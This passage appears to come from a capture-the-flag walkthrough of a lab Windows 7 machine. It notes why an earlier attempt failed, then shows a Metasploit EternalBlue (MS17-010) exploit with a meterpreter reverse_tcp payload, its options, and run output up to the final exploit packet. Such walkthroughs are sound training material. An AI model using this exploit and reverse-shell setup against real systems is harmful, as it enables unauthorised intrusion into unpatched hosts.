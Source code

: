 ```
- Using a Unstaged Payload.This is not the case here as we are using meterpreter reverse_tcp payload.

- lhost is not in the same network as the rhost. This is a rookie mistake. 

## Sucessful Attempt using Method 1.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.40:445 - Executing automatic check (disable AutoCheck to override)
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!